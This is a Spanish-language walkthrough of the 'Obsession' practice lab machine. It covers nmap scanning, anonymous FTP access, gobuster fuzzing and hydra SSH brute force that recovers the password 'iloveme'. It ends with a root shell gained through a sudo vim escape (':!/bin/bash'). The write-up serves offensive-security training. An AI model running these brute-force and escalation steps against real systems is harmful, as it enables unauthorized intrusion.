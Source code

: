 # Obsession
![image](https://github.com/user-attachments/assets/f802b7b6-123e-447a-b256-1b4ca7050e52)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```
Como tenemos abierto el puerto 21,22,80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p21,22,80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p21,22,80`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18 03:20 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18 03:21 pendientes.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBICJkT7eK4HDkyFx9Sdx52QBKAlOxD2HlDN9dnPLkFaFXa2pI5bRqIRDmJLAkBTyyx2/ifDUCyl0uGyB2ExHvQ8=
|   256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFYEzfToqDm7m3dRLdvXwcIhNZzbIgwquUJvnII1jjJn
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Russoski Coaching
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
```
Utilizamos **gobuster** para hacer fuzzing y ver si encontramos algo que nos pueda ser útil.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
Mientras gobuster hace el escaneo nos conectamos al **FTP** como *anonymous* y password da igual lo que pongamos, y nos descargamos los dos ficheros que están ahí.
```
ftp 172.17.0.2
mget *
```
Parece que en los ficheros no hay nada interesante, así que vemos el resultado del escaneo que habíamos dejado con **gobuster** y encontramos un direcotrio llamado **/backup**.
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 5208]
/backup               (Status: 301) [Size: 309] [--> http://172.17.0.2/backup/]
/important            (Status: 301) [Size: 312] [--> http://172.17.0.2/important/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
```
Dentro del direcctorio **/backup** hay un archivo *.txt* que si lo abrimos tenemos información importante.

![image](https://github.com/user-attachments/assets/565355b9-55c3-4d29-9fd1-dc688c1c32d1)

Ya tenemos un posible usuario ***russoski***, así que como teníamos el puerto 22 abierto vamos a probar con hydra y fuerza bruta a conectarnos.
```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Obtenemos la contraseña **iloveme** y nos conectamos con el usuario **russoski**

![image](https://github.com/user-attachments/assets/3783b387-3dc9-453a-a250-bbaea68587bf)

```
ssh russoski@172.17.0.2
```
![image](https://github.com/user-attachments/assets/9845a17f-484d-46fc-8ec5-40acc68ed421)

Una vez conectados, comprobamos si tenemos algún binario que podamos ejecutar con privilegios de **root** y nos encontramos que podemos ejecutar **/usr/bin/vim**.

![image](https://github.com/user-attachments/assets/98ec19ce-8c4d-4c5b-9a85-cd89738ac722)

```
sudo -uroot /usr/bin/vim
```
Desde dentro del editor tenemos que escribir los siguiente.

```
:!/bin/bash
```
Y ya estariamos como **root**.

![image](https://github.com/user-attachments/assets/4c76903b-36cc-4ea0-a699-a3a95e410245)
